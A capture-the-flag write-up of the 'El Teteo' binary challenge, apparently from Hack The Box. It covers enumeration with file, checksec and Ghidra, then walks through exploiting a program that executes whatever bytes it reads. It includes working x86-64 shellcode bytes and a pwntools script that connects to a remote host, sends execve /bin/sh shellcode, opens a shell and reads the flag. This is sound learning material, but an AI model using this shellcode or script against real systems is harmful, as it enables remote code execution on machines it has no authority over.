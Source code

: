 # Introduction


# Enumeration

1. Running `file`:

![](assets/El%20Teteo.png)

64-bit binary, dynamically linked.


2. using `checksec`:

![](assets/El%20Teteo-1.png)

Two main things pop out.
-  `NX unkown - GNU_STACK missing`
NX bit marks certain areas of the program as non-executable. Since the usual marker is missing, `checksec` couldn't determine from that alone if stack is executable or not, but through further analysis that:
-  Stack is executable.
This means that if we were able to inject code into the stack, we will be able to execute it.

3. Running `Ghidra`:

Got the following main function:

```python

undefined8 main(void)

{
  undefined *puVar1;
  undefined *puVar2;
  undefined *puVar3;
< -- SNIP -- > # a bunch of the same
  undefined *puVar30;
  undefined *puVar31;
  int iVar32;
  time_t tVar33;
  long in_FS_OFFSET;
  undefined *local_a8 [4];
  undefined *local_88;
  undefined *local_80;
  undefined *local_78;
  undefined8 local_68;
  undefined8 local_60;
  undefined8 local_58;
  undefined8 local_50;
  long local_40;
  
  local_40 = *(long *)(in_FS_OFFSET + 0x28);
  cls();
  local_a8[0] = &DAT_00102016;
  local_a8[1] = &DAT_0010201e;
  local_a8[2] = &DAT_00102026;
  local_a8[3] = &DAT_0010202e;
  local_88 = &DAT_00102036;
  local_80 = &DAT_0010203e;
  local_78 = &DAT_00102046;
  tVar33 = time((time_t *)0x0);
  srand((uint)tVar33);
  iVar32 = rand();
  printf("%s",local_a8[iVar32 % 6]);
  iVar32 = rand();
  puVar1 = local_a8[iVar32 % 6];
  iVar32 = rand();
  puVar2 = local_a8[iVar32 % 6];
  iVar32 = rand();
< -- SNIP -- > # a bunch of the same
  puVar31 = local_a8[iVar32 % 6];
  iVar32 = rand();
  printf(&DAT_00102058,local_a8[iVar32 % 6],puVar31,puVar30,puVar29,puVar28,puVar27,puVar26,puVar25,
         puVar24,puVar23,puVar22,puVar21,puVar20,puVar19,puVar18,puVar17,puVar16,puVar15,puVar14,
         puVar13,puVar12,puVar11,puVar10,puVar9,puVar8,puVar7,puVar6,puVar5,puVar4,puVar3,puVar2,
         puVar1);
  printstr("[!] I will do whatever you want, nice or naughty..\n\n> ");
  local_68 = 0;
  local_60 = 0;
  local_58 = 0;
  local_50 = 0;
  read(0,&local_68,0x1f);
  (*(code *)&local_68)();
  if (local_40 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

The code seems to include a lot of fluff, so I will run it first. After running the binary, we see the following:

![](assets/El%20Teteo-2.png)

we see that the print statement before the "I will do whatever you want" message prints an image, so we can ignore the first print statement alongside all of the fluff before it.

Next, we read into a variable called local_68 `0x1f` (31) bytes of data.
We also have an if condition that terminates if local_40's value changes.

I will need the help of a writeup to know what to do next.

The first thing that I missed is the following line:

```C
  (*(code *)&local_68)();
```

The breakdown of the line does can be found [here](https://bytebreach.com/posts/binexp-elteteo/). For simplicity, it basically runs whatever shellcode we send in the input field.

# Exploitation

We need to run shellcode that would allow us to read flag.txt. We can try to use `pwntools` for this.

Note to self, using `pwn` and `pwnlib` both at once causes issues when trying to use `shellcraft` and updating the context.

First attempt: used the following snippet of code to create the payload
```python
from pwn import *
context.update(arch='amd64', os='linux')
payload = asm(shellcraft.amd64.linux.cat('flag.txt'))
print(payload)
```

which gave us the following payload:
```
b'j\x01\xfe\x0c$H\xb8flag.txtPj\x02XH\x89\xe71\xf6\x0f\x05A\xba\xff\xff\xff\x7fH\x89\xc6j(Xj\x01_\x99\x0f\x05'
```

However, trying to input this, we get the followng:

![](assets/El%20Teteo-3.png)

This may be an architecture issue. 

trying `shellcode` failed miserably so I will use the payload suggested in the provided `solver.py` function.

The final script is as follows:

```python
#!/usr/bin/env python3

from pwn import *
def processConnection():
    try:
        host,port = sys.argv[1].split(':')
        return remote(host,port)
    except IndexError:
        print("Usage: python3 exploit.py <host:port>")
        exit(1)


#https://shell-storm.org/shellcode/files/shellcode-806.html
payload = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

connection = processConnection()
connection.sendlineafter(b'>',payload)
pause(1) # equivalent to sleep, but for the connection

connection.sendline(b'cat flag*')
flag = connection.recvline_contains('HTB').decode()
print(flag)
```

# Learning Outcomes

1. Learned about shellcode NX bit and shellcode execution.
2. Learned about shell crafting tools and databases.

# Next Steps

Learn how to use `shellcraft` effectively and how to eventually craft my own payloads.